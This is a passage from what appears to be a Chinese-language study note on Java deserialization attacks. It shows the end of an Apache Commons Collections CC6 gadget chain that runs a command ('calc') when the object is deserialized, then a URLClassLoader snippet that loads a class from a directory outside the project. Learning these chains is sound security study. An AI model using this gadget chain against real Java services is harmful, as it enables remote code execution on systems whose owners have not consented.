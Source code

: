 ```java
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object, Object> map = new HashMap<>();
        Map lazyMap = LazyMap.decorate(map, new ConstantTransformer("godown"));
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "test1");
        HashMap<Object, Object> hashMap = new HashMap<>();
        hashMap.put(tiedMapEntry, "test2");
        map.remove("test1");
        Class lazymapClass = lazyMap.getClass();
        Field factory = lazymapClass.getDeclaredField("factory");
        factory.setAccessible(true);
        Field modifiersField = Field.class.getDeclaredField("modifiers");
        modifiersField.setAccessible(true);
        modifiersField.setInt(factory, factory.getModifiers() & ~Modifier.FINAL);
        factory.set(lazyMap, chainedTransformer);
        serialize(hashMap);
        unserialize("cc6.ser");
    }
    public static void serialize(Object obj) throws Exception {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("cc6.ser"));
        oos.writeObject(obj);
        oos.close();
    }
    public static Object unserialize(String filename) throws Exception {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        Object obj = ois.readObject();
        ois.close();
        return obj;
    }
}

```

### file协议

构建后放到指定的项目外目录，测试加载项目外路径的类

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240731151651287.png)

把项目文件下的CC6TiedMapEntry文件删去

用下列代码就能远程加载类

```java
public class CC3TemplatesImpl {
    public static void main(String[] args) throws Exception {
        URLClassLoader urlClassLoader = new URLClassLoader(new URL[]{new URL("file:///E:\\CODE_COLLECT\\")});
        Class<?> clazz = urlClassLoader.loadClass("CC6TiedMapEntry");
        clazz.newInstance();
    }
}
```
